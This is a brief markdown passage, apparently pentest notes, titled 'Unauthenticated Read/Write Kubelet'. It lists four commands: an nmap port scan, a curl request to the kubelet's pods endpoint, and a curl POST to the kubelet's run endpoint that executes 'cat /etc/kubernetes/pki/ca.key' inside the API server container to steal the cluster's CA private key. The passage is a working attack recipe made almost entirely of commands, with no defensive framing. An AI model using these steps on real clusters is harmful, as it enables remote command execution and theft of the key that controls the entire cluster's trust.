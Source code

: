 ## Unauthenticated Read/Write Kubelet

Exploiting this takes a couple of steps

1. Scan the cluster `nmap [CLUSTER IP] -p-`
2. Get a list of running pods `curl -k https://[CLUSTERIP]:10250/pods/ | jq`
3. From this output, find the name of the pod and container running the Kubernetes API server
4. Retrieve the key `curl https://[CLUSTERIP]:10250/run/[Namespace]/[Pod]/[Container] -k -XPOST -d "cmd=cat /etc/kubernetes/pki/ca.key"`
